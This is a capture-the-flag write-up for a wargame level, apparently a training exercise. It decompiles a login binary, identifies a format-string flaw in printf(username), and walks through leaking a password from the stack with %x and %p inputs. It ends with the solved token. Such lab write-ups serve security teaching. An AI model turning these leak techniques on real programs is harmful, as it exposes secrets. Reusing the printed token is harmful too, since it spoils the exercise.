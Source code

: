 # LEVEL 02

## Code analysis

### Decompiled code (Ghidra)

```c
undefined8 main(void)
{
  int iVar1;
  size_t sVar2;
  long lVar3;
  char *pcVar4;
  char local_118[112];  /* password input buffer */
  char local_a8[48];    /* buffer for password read from file */
  char local_78[100];   /* username buffer */
  int local_14;
  FILE *local_10;

  /* ... zero-initialize buffers ... */

  /* Open and read the password file */
  local_10 = fopen("/home/users/level03/.pass", "r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n", 1, 0x24, stderr);
    exit(1);
  }

  /* Read 41 bytes (0x29) from the file */
  sVar2 = fread(local_a8, 1, 0x29, local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn(local_a8, "\n");
  local_a8[sVar2] = '\0';

  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n", 1, 0x24, stderr);
    exit(1);
  }
  fclose(local_10);

  /* Login interface */
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");

  /* Read username */
  printf("--[ Username: ");
  fgets(local_78, 100, stdin);
  sVar2 = strcspn(local_78, "\n");
  local_78[sVar2] = '\0';

  /* Read password */
  printf("--[ Password: ");
  fgets(local_118, 100, stdin);
  sVar2 = strcspn(local_118, "\n");
  local_118[sVar2] = '\0';

  puts("*****************************************");

  /* Password check */
  iVar1 = strncmp(local_a8, local_118, 0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n", local_78);
    system("/bin/sh");
    return 0;
  }

  /* VULNERABILITY: Format string */
  printf(local_78);  /* should be printf("%s", local_78) */
  puts(" does not have access!");
  exit(1);
}
```

---

## Vulnerability identification

### Format string vulnerability

Critical line:

```c
printf(local_78);
```

It should have been:

```c
printf("%s", local_78);
```

Consequence: by supplying format specifiers (`%x`, `%p`, `%s`, `%n`) in the username, an attacker can:

- read stack memory;
- access variables stored on the stack;
- or write to memory (with `%n`).

---

## Exploitation

### Step 1 — probing the stack with `%x`

Initial test:

```bash
Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Password: test
```

Example output (truncated):

```
AAAA ffffe500 0 78 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 78252078 25207825 20782520
78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520
252078 0 34376848 61733951 574e6758 6e475873 664b394d feff00 41414141 ...
```

### Step 2 — analyze the values

Positionally you can see several words that correspond to the password bytes.

For example (positions shown in the original notes):

- 22: `34376848` — start of the password
- 23: `61733951`
- 24: `574e6758`
- 25: `6e475873`
- 26: `664b394d`
- 27: `feff00` — string terminator

Observation: the password read from `.pass` is stored on the stack and is therefore leakable via the format-string vulnerability.

### Step 3 — use `%p` on 64-bit systems

Problem: on 64-bit systems `%x` prints 4 bytes (32-bit) while stack values are 8-byte pointers. Use `%p` to read 8 bytes at a time.

Example command:

```bash
echo "%22\$p %23\$p %24\$p %25\$p %26\$p" | ./level02
```

Example output:

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```

And without the `0x`/leading formatting (clean hex):

```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```

---

## Decoding the password

You can decode the leaked values using a hex-to-bytes conversion, then swap endianness per 8-byte word.

Using CyberChef (example):

1. Input:

   756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d

2. Operation 1: "From Hex" (delimiter: Space)
3. Operation 2: "Swap endianness" (Word length: 8)
4. Result: the password string.

---

## Solution

Token found:`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
